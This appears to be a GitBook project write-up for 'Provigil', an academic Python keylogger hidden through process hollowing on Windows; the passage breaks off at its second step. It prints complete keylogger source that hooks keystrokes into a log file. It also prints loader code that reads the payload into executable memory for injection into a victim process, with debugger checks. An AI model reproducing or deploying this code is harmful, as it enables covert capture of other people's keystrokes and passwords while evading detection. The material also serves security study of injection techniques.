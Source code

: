 ```yaml
---
description: >-
  Academic security project in python on process injection for Windows 10 64 bit
  platform.
coverY: 0
---
```


# 💀 Provigil : Trivial keylogger with Process Hollowing

## Synopsis

Provigil is a simple keylogger wrote in python which uses process injection to hide it self. The Provigil project is split in two modules : the first one is **Provigil.py** which contains the keylogger and the second one is **ProLoader.py **whose purpose is to inject the keylogger (Provigil.py) into a process.

![Project architecture](.gitbook/assets/image.png)

There is differents techniques to inject malicious code into a victim process such as : _Extra Windows Memory injection, Classic DLL injection_, ect.. Provigil uses **Process Hollowing** technique. The latter consists to hollow out legitimate code from the target process' memory and replaces it with a malicious executable.

![Process Hollowing Injection](.gitbook/assets/process-injection-techniques-blogs-runpe.gif)

## Keylogger&#x20;

First, let's focus on **Provigil.py.**

```python
import pyWinhook as pyHook
import pythoncom, sys, logging


class KeyLogger:

    buffer = ""
    file_log = 'C:\\Users\toto\Documents\log.txt'

    def __init__(self):
        self.init_log()
        

    def init_log(self):
        logging.basicConfig(filename=self.file_log, level=logging.DEBUG, format='%(message)s')

    def KeyboardEvent(self, event):
        if event.Ascii == 13:
            logging.log(10, self.buffer)
            self.buffer = ""
        elif event.Ascii == 27:
            exit(0)
        else:
            self.buffer += chr(event.Ascii)
        return True

    def keyCapture(self):
        hooks_manager = pyHook.HookManager()
        hooks_manager.KeyDown = self.KeyboardEvent
        hooks_manager.HookKeyboard()
        pythoncom.PumpMessages()
```

## Step 1 : Load Keylogger Executable

The first step consists to load the Provigil keylogger executable in memory.&#x20;

The Windows API function call **CreateFileW **returns a handle that can be used to access the file. We use it to have different information about the file.

```python
hReplacement = HANDLE()
        hReplacement = windll.kernel32.CreateFileW(
        self.PAYLOAD_EXE,
        GENERIC_READ,
        FILE_SHARE_READ,
        0,
        OPEN_EXISTING,
        0,
        0)
        if (hReplacement == -1):
            logger.error(f"\tCreateFile error: {FormatError(GetLastError())}")
            sys.exit(1)
```

Thanks to handler we can get the keylogger program size to allocate memory. I use the WinAPI function **VirtualAlloc **wich set automatically the memory initialized to zero. `allocated_adress `contains now the base address of the allocated region of pages.

```python
file_size = windll.kernel32.GetFileSize(hReplacement, 0)

allocated_address = windll.kernel32.VirtualAlloc(
            0,
            file_size,
            MEM_COMMIT | MEM_RESERVE,
            PAGE_EXECUTE_READWRITE,
        )
        if allocated_address == 0:
            logger.error(f"\tVirtualAlloc error: {FormatError(GetLastError())}")
            sys.exit(1)
```

Then we call **ReadMemory **function to load the file at the address we previously allocated.

```python
totalNumberofBytesRead = DWORD()
if windll.kernel32.ReadFile(
    hReplacement, 
    LPVOID(allocated_address), 
    file_size, 
    byref(totalNumberofBytesRead), 
    0) == 0:
    logger.error(f"\tError when Reading malware: {FormatError(GetLastError())}")
    sys.exit(1)
windll.kernel32.CloseHandle(hReplacement)
```

### Check

Refering to the logs, keylogger process has been loaded at address `0x2e5149e0000 `

![ProLoader logs](<.gitbook/assets/image (3).png>)

We debug the process thanks WinDbg to inspect the memory. Thus, we can see that the process header is corretly load at the correponding address.

![ProLoader memory process](<.gitbook/assets/image (2).png>)

## Step 2 : Get Victim Process' Address

